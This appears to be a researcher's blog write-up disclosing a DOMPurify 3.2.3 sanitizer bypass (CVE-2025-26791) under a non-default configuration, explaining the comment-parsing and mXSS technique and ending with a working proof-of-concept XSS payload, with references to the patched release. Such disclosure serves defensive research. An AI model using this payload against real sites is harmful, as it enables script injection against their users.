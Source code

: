 ```yaml
---
title: "DOMPurify 3.2.3 Bypass (Non-Default Config)"
description: "A write up of a bypass in DOMPurify 3.2.3 I found (CVE-2025-26791), specifically using incorrectly opened comment exception and mxss techniques, similar to previous successful bypassing attempts. "
date: "Jan 29 2025"
tags: ["write up", "xss"]
image: '/images/dompurify-thumbnail.png'
---
```


### Introduction

I found a bypass in DOMPurify which allows for sanitized HTML to cause XSS on the first day of the Chinese New Year! Here is how.

### Explanation
From looking at the previous few DOMPurify bypasses, a common theme can be spotted: the payloads are usually a combination of mXSS + comments in attribute values.

And if you take a look at `src/purify.ts` in DOMPurify, it does seem like cure53 have patched both comments and CDATA, or have they?

```js
/* Work around a security issue with comments inside attributes */
if (SAFE_FOR_XML && regExpTest(/((--!?|])>)|<\/(style|title)/i, value)) {
    _removeAttribute(name, currentNode);
    continue;
}
```

If we take a close look at the WHATWG HTML specification, we can see that comments not only come in the form of `<!-- ... -->` but also in `<! ... >` due to the [incorrectly opened comment exception](https://html.spec.whatwg.org/multipage/parsing.html#parse-error-incorrectly-opened-comment).

This on paper allows us to sneak comment end tags in attribute values if they are in the form of `<! ... >`... right?

If you have experience with mXSS, you might know that the it works because when comments are wrapped in a specific payload, it is treated as text in the first parsing(DOMPurify), but treated as a comment in the second parsing(browser).

However the payloads for mXSS require that the sneaked in comments be wrapped in `<style>` tags. Plus, DOMPurify removes all possible tags from text nodes, so the comment end tag must be in an attribute value.

But we want to achieve this... How?
`<style><! ... <a id='><img src onerror="alert(1)">'`

Another challenge presented is that we can't simultaneously have both comments and HTML elements in the `<style>` tag due to DOMPurify and how HTML works, so we can't "mutate" the anchor tag in.

At the bottom of the DOMPurify sanitize function, we see that there is a somewhat dangerous sanitization, replacing possible template expressions with spaces. This made me wonder, whether I could remove the closing style tag with this.

```js
    /* Sanitize final string template-safe */
    if (SAFE_FOR_TEMPLATES) {
      arrayForEach([MUSTACHE_EXPR, ERB_EXPR, TMPLIT_EXPR], (expr) => {
        serializedHTML = stringReplace(serializedHTML, expr, ' ');
      });
    }

return trustedTypesPolicy && RETURN_TRUSTED_TYPE
  ? trustedTypesPolicy.createHTML(serializedHTML)
  : serializedHTML;
};
```

Well turns out you can... Here is the full PoC.

### PoC
*mXSS portion taken from [Yaniv Nizry](https://yaniv-git.github.io/2024/12/08/DOMPurify%203.2.1%20Bypass%20(Non-Default%20Config)/)*
```js
DOMPurify.sanitize(
  `<math><foo-test><mi><li><table><foo-test><li></li></foo-test><a>
      <style>
        <! \${
      </style>
      }
      <foo-b id="><img src onerror='alert(1)'>">hmm...</foo-b>
    </a></table></li></mi></foo-test></math>
  `,
  {
    SAFE_FOR_TEMPLATES: true,
    CUSTOM_ELEMENT_HANDLING: {
      tagNameCheck: /^foo-/,
    },
  }
);
```

### References
- https://github.com/cure53/DOMPurify/releases/tag/3.2.4
- https://github.com/cure53/DOMPurify/commit/d18ffcb554e0001748865da03ac75dd7829f0f02
- https://yaniv-git.github.io/2024/12/08/DOMPurify%203.2.1%20Bypass%20(Non-Default%20Config)/
- https://nvd.nist.gov/vuln/detail/CVE-2025-26791